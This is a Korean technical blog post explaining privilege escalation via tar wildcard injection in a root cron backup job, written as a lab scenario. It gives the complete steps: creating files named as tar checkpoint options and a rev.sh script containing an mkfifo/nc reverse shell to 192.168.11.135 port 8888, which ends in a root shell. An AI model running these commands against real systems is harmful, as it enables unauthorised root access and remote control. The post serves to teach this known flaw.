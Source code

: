 ```yaml
---
layout: post
title: Wildcard(*) 인젝션에 대하여
subtitle: tar와 와일드카드를 이용한 취약점
category: knowledge
thumbnail-img: /assets/img/knowledge/Studio_Wildcard_logo.png
tags: [knowledge, wildcard, tar, checkpoint]
author: Hong
---
```


와일드카드(*)를 이용한 권한상승 취약점에 대한 설명글.

# 시나리오
cron에 등록된 작업에 와일드카드를 이용한 명령어가 적혀있는 경우를 가정하여 권한상승 공격을 실시.

`cat /etc/crontab`을 했을 경우 아래와 같은 작업이 등록되어 있다고 가정한다.
```
# m h dom mon dow user  command
*/01 *  * * *   root    cd /home/vuln/backuplog && tar -zcf /backup/backuplog.tar.gz *
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
여기서 주목해야 할 부분은 처음에 있는 tar 명령어와 root의 권한으로 실행된다는 점.

그리고 wildcard (*)에 의해서 디렉토리 휘하에 모든 파일이 tar에 인식된다는 점.

tar의 옵션중 --checkpoint-action을 이용하면 지정한 파일을 실행하는 것도 가능하다. 

위의 첫번째 작업을 해석하면, `/home/vuln/backuplog`라는 디렉토리로 이동 후, 그 디렉토리안에 있는 **모든 파일**을 하나로 묶어 `backup`디렉토리에 저장하고 있다.

# 취약점

이 점을 이용하여 디렉토리에 명령어를 파일처럼 만들어두어 tar가 실행하도록 한다.

[tar 체크포인트의 설명](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)

`touch -- '--checkpoint=1'`

`touch -- '--checkpoint-action=exec=sh rev.sh'`

위와 같이 두개의 명령어를 추가하여 리버스쉘을 실행하도록 유도할 수 있다.

`touch --`를 해야 명령어 형식의 파일을 만들 수 있다.
```
ls /home/vuln/backuplog
'--checkpoint-action=exec=sh rev.sh'  
'--checkpoint=1'   
bad.log   
good.log   
rev.sh
```
`backuplog`디렉토리를 보면 방금 만든 명령어 2개와 리버스쉘 파일, 그리고 good,bad라는 로그파일 두개가 있다.

rev.sh라는 실행파일은 리버스쉘을 위해 작성한 실행파일이다.
안에 내용물은 아래와 같다.
```
#! /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|../Desktop/nc 192.168.11.135 8888 >/tmp/f
```

cron잡에 의해 위의 파일은 결국 다음과 같이 실행될 것이다.

`tar -zcf /backup/backuplog.tar.gz --checkpoint=1 --checkpoint-action=exec=sh rev.sh bad.log good.log rev.sh`
# 결과
crontab을 보면 백업 작업이 매분마다 실행되었기 때문에 호스트 머신에서 포트를 리스닝하고 기다리고있으면 cron잡이 실행되어 root로 타겟머신의 쉘이 열리게 된다.

![result](/assets/img/knowledge/revshell.png)
`id`명령어를 실행하면 root로 쉘을 취득한 것을 알 수 있다.